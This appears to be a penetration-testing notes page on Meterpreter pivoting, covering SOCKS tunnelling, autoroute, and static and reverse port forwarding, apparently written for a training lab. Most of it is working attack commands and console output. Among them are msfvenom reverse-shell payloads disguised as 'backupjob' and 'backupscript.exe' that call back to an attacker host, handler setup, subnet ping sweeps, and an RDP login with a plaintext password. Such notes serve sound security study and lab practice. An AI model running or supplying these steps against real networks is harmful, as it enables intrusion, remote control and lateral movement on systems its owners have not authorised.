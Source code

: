 # Content
- [Meterpreter Tunneling & dynamic port forwardiing](#meterpreter-tunneling--dynamic-port-forwardiing)
- [Meterpreter static Port Forwarding](#meterpreter-static-port-forwarding)
- [Meterpreter Reverse Port Forwarding](#meterpreter-reverse-port-forwarding)

![Screenshot_3](https://github.com/kiro6/penetration-testing-notes/assets/57776872/139f0117-4f36-436d-b4e2-29a9a58f1cec)


## Meterpreter Tunneling & dynamic port forwardiing 

### Creating Payload for Ubuntu Pivot Host

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

### Configuring & Starting the multi/handler
```shell
use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

### Executing the Payload on the Pivot Host
```
 ./backupjob
```
### Ping Sweep
```shell
# msfconsole
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23          

# shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done    

# CMD
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"

# powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

### conf check proxychain 
```
cat /etc/proxychains.conf

socks4 	127.0.0.1 9050

```

### Configuring MSF's SOCKS Proxy
This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session.
```shell
sf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

### Confirming Proxy Server is Running
```shell
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

### Creating Routes with AutoRoute
Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. 
```shell
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed


or


meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

### Testing Proxy & Routing Functionality
```shell
$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```


## Meterpreter static Port Forwarding

### Creating Local TCP Relay
The command requests the Meterpreter session to start a listener on our attack host's local port (-l) 3300 and forward all the packets to the remote (-r) Windows server 172.16.5.19 on 3389 port (-p) via our Meterpreter session.
```shell
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
### use rdp
```shell
$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

### Netstat Output
```shell
$ netstat -antp

tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 
```


## Meterpreter Reverse Port Forwarding

### Reverse Port Forwarding Rules
This command forwards all connections on port 1234 running on the Ubuntu server to our attack host on local port (-l) 8081.
```shell
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

### Configuring & Starting multi/handler
```shell
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

```

### Generating the Windows Payload

```shell
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```

### run the script in the windows machine

